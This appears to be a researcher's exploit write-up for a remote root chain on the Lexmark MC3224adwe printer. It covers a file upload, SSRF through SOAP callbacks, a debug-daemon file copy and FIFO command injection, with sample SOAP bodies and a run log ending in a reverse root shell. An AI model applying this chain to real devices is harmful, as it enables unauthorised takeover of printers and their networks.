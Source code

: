 # Lexmark MC3224adwe RCE exploit

## Introduction

This document details a vulnerability in the Lexmark MC3224adwe printer.
This vulnerability was uncovered using static code analysis and verified to be working on
the latest available firmware for this device (version **CXLBL.081.225** at the time of writing).

## Vulnerabilities

The full exploit chains a couple of seemingly harmless/isolated functionalities
to eventually fully compromise the device.

### File upload primitive

By sending a HTTP POST request to the URI endpoint `/webglue/uploadfile/ImportFaxLogo`
we can upload arbitrary file data, which will always be written to the file `/var/fs/shared/faxdata/logo`
on the filesystem.

### SSRF primitive

There is a daemon listening on TCP port `65002` that relates to various SOAP webservices.
Amongst these SOAP webservices is one that is responsible for handling a web printing
standard defined by Microsoft known as WS-Print (https://learn.microsoft.com/en-us/windows-hardware/drivers/print/ws-print-v1-1).

By carefully crafting a series of HTTP POST requests with the correct SOAP bodies
we can convince the server to make a HTTP callback to an endpoint of our choosing.

The SOAP requests make use of the following XML schema namespaces:

- soap: "http://www.w3.org/2003/05/soap-envelope"
- wsa: "http://schemas.xmlsoap.org/ws/2004/08/addressing"
- wse: "http://schemas.xmlsoap.org/ws/2004/08/eventing"
- ew: "http://www.example.com/warnings"
- pri: "http://schemas.microsoft.com/windows/2006/08/wdp/print"

The SOAP envelope bodies that need to be sent look (abbreviated, consult exploit code for full listing) like this:

#### SOAP Request 1

```xml
<!-- abbreviated SOAP request -->
<soap:Body>
    <wse:Subscribe>
      <wse:EndTo>
        <wsa:Address>http://127.0.0.1:12039</wsa:Address>
        <wsa:ReferenceProperties>
          <ew:MySubscription>1234</ew:MySubscription>
        </wsa:ReferenceProperties>
        <wsa:ReferenceParameters>
          <wse:Identifier>IDID-1</wse:Identifier>
        </wsa:ReferenceParameters>
      </wse:EndTo>
      <wse:Delivery>
        <wse:NotifyTo>
          <wsa:Address>http://callback_address_goes_here</wsa:Address>
          <wsa:ReferenceParameters>
            <wse:Identifier>identifier</wse:Identifier>
          </wsa:ReferenceParameters>
        </wse:NotifyTo>
      </wse:Delivery>
      <wse:Filter>http://schemas.microsoft.com/windows/2006/08/wdp/print/JobStatusEvent</wse:Filter>
    </wse:Subscribe>
</soap:Body>
<!-- abbreviated -->
```

#### SOAP Request 2

```xml
<!-- abbreviated SOAP request -->
  <soap:Body>
    <pri:CreatePrintJobRequest>
      <pri:PrintTicket>
        <pri:JobDescription>
          <pri:JobName>JOBNAME</pri:JobName>
          <pri:JobOriginatingUserName>user</pri:JobOriginatingUserName>
        </pri:JobDescription>
      </pri:PrintTicket>
    </pri:CreatePrintJobRequest>
  </soap:Body>
<!-- abbreviated -->
```

When the callbacks are being made the software does not do any sanity-checking
on the destination of the callbacks, thus it is possible to send callbacks
to arbitrary hosts, including the printer itself. This is a SSRF (Server-Side-Request-Forgery)
vulnerability.

### File copy primitive

The printer runs a debugging daemon on TCP port `12039` that relates to debugging
of fax functionality. This daemon is not reachible from the outside world normally.
The daemon is implemented as part of the `/usr/bin/faxserviceapp` binary.

The daemon can be interfaced with using a simple line based protocol. Most of the
commands aren't super interesting to us, but one stands out: copy file. it can be
used to copy file data from a source path to a destination path. This is all executed
as the user running the `faxserviceapp` daemon (user `fax).

### Privilege escalation

There is a process called `/usr/bin/auto-fwdebugd` that is started as a systemd
service. If we look at the systemd service definitions files for this process we
see:

```
[Unit]
Description=Automatic fwdebug pipe

[Socket]
ListenFIFO=/run/svcerr/auto_fwdebug_pipe
SocketMode=0666

[Install]
WantedBy=sockets.target
```

It registers a named FIFO called `/run/svcerr/auto_fwdebug_pipe`. The `main()`
function of `auto-fwdebugd` essentially polls this FIFO for commands. What is
interesting to note here is that the `SocketMode` specified in the systemd service
file is 0666, meaning any user can write to this FIFO file. When input is read()
from this FIFO it will scan for a semicolon `;` character and format a command
to be invoked based on whatever comes behind it. This input is not sanitized
and leads to a command injection vulnerability.

## Exploitation

By chaining all of the above primitives, a full compromise and privilege escalation
of the system is possible:

- We use the arbitrary file upload bug to write a privilege escalation payload to the filesystem
- We send two HTTP requests with the correct SOAP bodies to TCP port 65002
- This triggers an SSRF condition that will send a HTTP request to the internal TCP port `12039`
- Because the daemon on TCP port `12039` uses a line based protocol, the HTTP request stanza
  is ignored until it reaches our controlled input that was being smuggled as part of the
  path in our callback URI.
- Multiple 'copy file' commands are being executed by the SSRF trigger which preserve
  our LPE payload and trigger the execution of commands by writing malicious
  input to `/run/svcerr/auto_fwdebug_pipe`
- The `auto-fwdebugd` daemon picks up this malicious input and ends up executing an arbitrary
  command (that is limited in length, but sufficiently long enough to stage to a bigger payload)
- Code execution as the `root` user is achieved.

The full runtime of the exploit is slightly long due to the fact a lot of processing
is done by `auto-fwdebugd` until the execution of our payload is reached. In my testing
environment it took ~100 seconds on average to reach this condition.

Please refer to the exploit code for the full details of all steps involved.

## Exploit Output

A typical run of the exploit should look like this. After exploitation is finished
a rootshell is spawned and a little surprise payload is uploaded to take over
the UI that is normally displayed on the printer's LCD screen.

```
$ python exploit.py 192.168.2.18 192.168.2.14

      $$$ Lexmark MC3224adwe RCE Exploit $$$
          -- by blasty <peter@haxx.in> --

<11:25:10> [i] HACK: attacking 192.168.2.28, sending shells to 192.168.2.14
<11:25:10> [~] UPLOAD: upload lpe polyglot
<11:25:11> [~] COPY: copy polyglot to /tmp and pipe
<11:25:11> [~] SSRF: trigger part 1
<11:25:11> [~] SSRF: trigger part 2
<11:25:16> [~] WAIT: patience you must have, my young padawan
<11:25:25> [i] CLOCK: 15 seconds elapsed..
<11:25:40> [i] CLOCK: 30 seconds elapsed..
<11:25:55> [i] CLOCK: 45 seconds elapsed..
<11:26:10> [i] CLOCK: 60 seconds elapsed..
<11:26:25> [i] CLOCK: 75 seconds elapsed..
<11:26:40> [i] CLOCK: 90 seconds elapsed..
<11:26:55> [i] CLOCK: 105 seconds elapsed..
<11:27:07> [!] ROOT-SHELL: YES! Connection from: ('192.168.2.28', 40924)
<11:27:07> [!] ROOT-SHELL: id output: uid=0(root) gid=0(root)

<11:27:07> [i] HACK: pwning took 116 seconds!
<11:27:07> [!] HACK: we have 184 seconds left, phew!
<11:27:07> [?] HACK: lets see if our ssh daemon is alive..
<11:27:07> [*] HACK: (0) attempting to connect to ssh..
<11:27:08> [*] HACK: (1) attempting to connect to ssh..
<11:27:08> [!] HACK: YES! ssh banner: SSH-2.0-OpenSSH_8.2

<11:27:08> [!] HACK: copying flair to target..
Warning: Permanently added '192.168.2.28' (ED25519) to the list of known hosts.
software                                                                                                                                100%   73KB 542.0KB/s   00:00
<11:27:08> [!] HACK: spawning flair and interactive ssh shell..
Warning: Permanently added '192.168.2.28' (ED25519) to the list of known hosts.
<11:27:10> [i] CLOCK: 120 seconds elapsed..

root@ET788C77F816DD:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ET788C77F816DD:~# uname -a
Linux ET788C77F816DD 5.4.90-yocto-standard #1 SMP PREEMPT Tue Nov 1 10:28:19 UTC 2022 armv7l GNU/Linux
root@ET788C77F816DD:~# head /proc/cpuinfo
processor	: 0
model name	: ARMv7 Processor rev 4 (v7l)
BogoMIPS	: 50.00
Features	: half thumb fastmult vfp edsp neon vfpv3 tls vfpv4 idiva idivt vfpd32 lpae evtstrm aes pmull sha1 sha2 crc32
CPU implementer	: 0x41
CPU architecture: 7
CPU variant	: 0x0
```

## Contact Details

- Peter "blasty" Geissler
- E-mail: peter@haxx.in
